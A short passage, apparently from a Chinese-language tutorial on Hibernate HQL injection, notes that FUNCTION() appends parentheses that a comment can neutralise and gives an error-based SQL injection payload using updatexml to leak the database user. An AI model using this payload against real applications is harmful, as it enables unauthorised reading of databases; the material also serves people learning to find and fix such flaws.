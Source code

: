 ![image-20250312163322417](resource/Hibernate-HQL注入.assets/image-20250312163322417.png)

这里注意function函数会在后面添加一对括号，可以使用单行注释进行注释

通过function()方法，可以对任意表进行读取。

报错注入：

```sql
name=test&#39; and FUNCTION(&#39;updatexml&#39;,1,concat(&#39;~&#39;,user(),&#39;~&#39;),1)=
```
